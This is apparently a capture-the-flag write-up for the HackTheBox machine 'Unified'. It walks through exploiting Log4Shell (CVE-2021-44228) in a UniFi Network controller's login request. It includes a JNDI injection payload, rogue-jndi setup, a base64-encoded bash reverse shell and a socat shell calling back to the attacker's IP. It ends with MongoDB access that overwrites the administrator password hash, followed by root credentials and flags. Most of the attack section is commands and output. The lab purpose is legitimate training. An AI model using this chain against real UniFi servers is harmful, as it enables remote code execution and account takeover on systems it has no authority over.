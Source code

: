 # HACKTHEBOX - Unified

```bash
export IP=10.129.72.187
```

## Enumeration
```bash
sudo nmap -sV -sC -v -oN nmap.txt $IP
```

**nmap result**:
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
.....
1 service unrecognized despite returning data....

rustscan: 8880/tcp open  cddbp-alt?
```

**Port 8443**: `Unifi 6.4.54`

`A vulnerable` third-party library used in `UniFi Network Version 6.5.53 and earlier` `(Log4J CVE-2021-44228)` allows a malicious actor to control the application. 

This vulnerability is `fixed` in UniFi Network Version 6.5.54 and later.

Ok Log4j, Unifi network vulnerability: https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Automate log4j vulnerabilities in unifi software: https://github.com/puzzlepeaches/Log4jUnifi 

**Summary**:

The `Unifi Network Application` is used to `manage Ubiquiti software and hardware solutions`. This software suite can be installed natively on Linux and Windows or within a Linux Docker container. 

The application is most commonly hosted on `port 8443` via HTTPS. Navigating to the webpage for the application in a web browser will look something like the following:

![unifi login version](Log4Unifi_1_Login_Version.png)

Versions prior to 6.5.54 are vulnerable to remote code execution. Once you’ve identified a vulnerable instance, it’s simple to walk through exploitation.

## Exploitation
The vulnerability is in the `rememberme` (or in some versions the username) value issued in the login request shown below:
```
https://10.129.72.187:8443/api/login
Host: ....

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

`Test for the vulnerability` in localhost, or you can test by trigger a dns query

```bash
nc -nlvp 8989
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:8989}","strict":true}' --compressed --insecure
# got connection --> vulnerable!!
```

First, you need to clone and build the tool, `rogue-jndi`(The project *contains LDAP & HTTP servers* for exploiting insecure-by-default Java JNDI API) from the GitHub:
```bash
# One-liner
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && sudo apt install maven && mvn package
```

Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. 
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.52/4444 0>&1' | base64
# YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==
```

With that Base64 output, build your command in `rogue-jndi`, then start your `rogue-jndi LDAP server` up.
```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNTIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.52"
```

To get a reverse shell, issue this cURL command:
```bash
curl 'https://10.129.72.187:8443/api/login' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://10.10.14.52:1389/o=tomcat}","strict":true}' --compressed --insecure
```

Start up a netcat listener on the port you specified while building your shell and issue the cURL command. If you did everything correctly, you should see UniFi Network Application grab the payload from rogue-jndi and then get a callback: (picture here!!)


We got reverse shell!!

What tool do we use to intercept the traffic, indicating the attack was successful: `tcpdump`

**user flag**: `HTB{6ced1a6a89e666c0620cdb10262XXXXX}`

## Post Exploitation
```bash
for PORT in {1..1000}; do timeout 1s bash -c "</dev/tcp/localhost/$PORT" > /dev/null; done
```
nothing, just for bash!!

Upgrade to interactive shell
```bash
which python # no!
which python3 # no!

# Using socat
# Host socat standalone binaries and from remote machine `curl -o`
# Kali Machine
socat file:`tty`,raw,echo=0 tcp-listen:4445
# Remote Machine
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.52:4445
```

What port do we need to inspect intercepted traffic for: `LDAP port: 389` (our server LDAP port)

What port is the MongoDB service running on: `27117`
```bash
ps aux | grep mongo
# unifi         67  0.4  4.2 1099648 85800 ?       Sl   11:49   0:44 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
# unifi      20857  0.0  0.0  11468  1112 pts/0    S+   14:39   0:00 grep mongo
```

Connect to MongoDB:
```bash
locate mongo # /usr/bin/mongo
/usr/bin/mongo --port 27117
```

MongoDB Command:
```bash
dbs; # default database --> ace
show databases
use ace
show collections # admin
db.admin.find() # enumerate users
```

What is the default database name for UniFi applications: `ace`

```json
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.", ......}
```

What is the function to add data to the database in MongoDB: `db.admin.insert()`

What is the function we use to update users within the database in MongoDB: `db.admin.update()`

**hints**: It's not crackable
https://community.spiceworks.com/topic/2175763-hash-tool-to-reset-ubiquiti-unifi-controller-admin-password
```bash
# http://sha512crypt.pw/
# hash: hello -> $6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn.

# overwrite administrator password
db.admin.update( { name: "administrator" }, {$set: { x_shadow: "$6$CU3a0DfD5u.QeV12$5NWCSeU4SsCxabV9bSNotwhoacGVqCfT1Lf9KVFIyc8XvW.N4OE9Hl.j1NGxjPeyHEL1/E8lbD5XNHBwFjrSn." } } );
# WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

Back to the Controller Login Pannel, log in with: `administrator:hello`

![ssh root password](ssh-password.png)

**SSH root password**: `NotACrackablePassword4U2022`
```bash
ssh root@$IP
# NotACrackablePassword4U2022
```

**root flag**: `HTB{e50bc93c75b634e4b272d2f771c33681}`
